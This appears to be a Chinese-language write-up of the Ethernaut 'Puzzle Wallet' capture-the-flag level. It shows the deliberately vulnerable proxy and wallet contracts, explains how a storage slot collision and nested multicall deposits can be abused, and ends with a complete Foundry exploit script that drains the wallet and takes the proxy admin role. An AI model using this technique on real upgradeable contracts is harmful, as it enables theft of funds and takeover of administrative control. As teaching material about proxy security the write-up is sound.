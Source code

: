 # Level 24 - Puzzle Wallet
## 題目
[Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

### 通關條件
事實上，如今，為 DeFi 作業付費是不可能的。
一群朋友發現瞭如何透過將多筆交易批量處理為一筆交易來稍微降低執行多筆交易的成本，因此他們開發了一個智能合約來實現這一點。
他們需要該合約能夠升級，以防程式碼包含錯誤，並且他們還希望防止組外的人使用它。為此，他們投票並分配了兩個在系統中具有特殊角色的人：管理員，有權更新智能合約的邏輯。所有者，控制允許使用合約的地址白名單。合約已部署，該組已列入白名單。每個人都為自己對抗邪惡礦工的成就而歡呼。
他們殊不知，他們的午餐錢正處於危險之中…
您需要劫持此錢包才能成為代理的管理員。
### 提示
- 了解執行一項操作時如何delegatecall運作以及如何msg.sender表現msg.value。
- 了解代理模式及其處理儲存變數的方式。
### 合約內容
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
## 解題
這題牽扯到 Proxy Contract，建議先看完 [WTF Solidity极简入门: 46. 代理合约
](https://github.com/AmazingAng/WTF-Solidity/tree/main/46_ProxyContract)

這題可以看到代理合約跟邏輯合約的變數宣告不一致，storage slot 會產生衝突。所以我們只要透過 `proposeNewAdmin()`（23 行）修改代理合約的 `pendingAdmin`，就會因為 slot 衝突進而修改到 `PuzzleWallet` 的 `owner`（都是第一個宣告的變數）。順利取得 `PuzzleWallet` 的 owner 權限。
```solidity
level24Proxy.proposeNewAdmin(msg.sender);
```
接下來就是要奪取 `PuzzleProxy` 的 admin 權限。跟剛剛一樣，我們的目標是修改 `PuzzleWallet` 的 `maxBalance` 讓 admin 跟著一起改變。改變 `maxBalance` 的 function 在第 54 行，要先通過 modifier `onlyWhitelisted()`，所以要把自己加入到白名單中，透過 59 行的 `addToWhitelist()`。
接下來要通過 55 行的 `require(address(this).balance == 0)`，必須將合約中的幣題光，合約中有 0.001 eth，雖然 `execute()` 可以提款但是只能提取自己存進去的 eth，所以現在要想辦法讓自己在 `PuzzleWallet` 中的錢顯示 0.002 但其實只有存入 0.001。
這裡要用到合約中最後的 function `multicall(bytes[] calldata data)`（76 行），他會將參數 `data[]` 中存入的 function 逐一執行，所以我們只要 `[deposit, [multicall, deposit]]` 就可以實現只放入 0.001 但執行兩次 `deposit()` 的效果。
```solidity
bytes[] memory depositSelector = new bytes[](1);
depositSelector[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
bytes[] memory nestedMulticall = new bytes[](2);
nestedMulticall[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
nestedMulticall[1] = abi.encodeWithSelector(level24Wallet.multicall.selector, depositSelector);
level24Wallet.addToWhitelist(msg.sender);
level24Wallet.multicall{value: 0.001 ether}(nestedMulticall);
level24Wallet.execute(msg.sender, 0.002 ether, "");
level24Wallet.setMaxBalance(uint256(uint160(msg.sender)));
```
最後攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/24_PuzzleWallet.sol";

contract ExploitScript is Script {
    PuzzleProxy level24Proxy = PuzzleProxy(payable(your_challenge_address));
    PuzzleWallet level24Wallet = PuzzleWallet(payable(your_challenge_address));
    
    function run() external {
        vm.startBroadcast();

        level24Proxy.proposeNewAdmin(msg.sender);

        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(level24Wallet.multicall.selector, depositSelector);
        level24Wallet.addToWhitelist(msg.sender);
        level24Wallet.multicall{value: 0.001 ether}(nestedMulticall);
        level24Wallet.execute(msg.sender, 0.002 ether, "");
        level24Wallet.setMaxBalance(uint256(uint160(msg.sender)));

        vm.stopBroadcast();
    }
}
```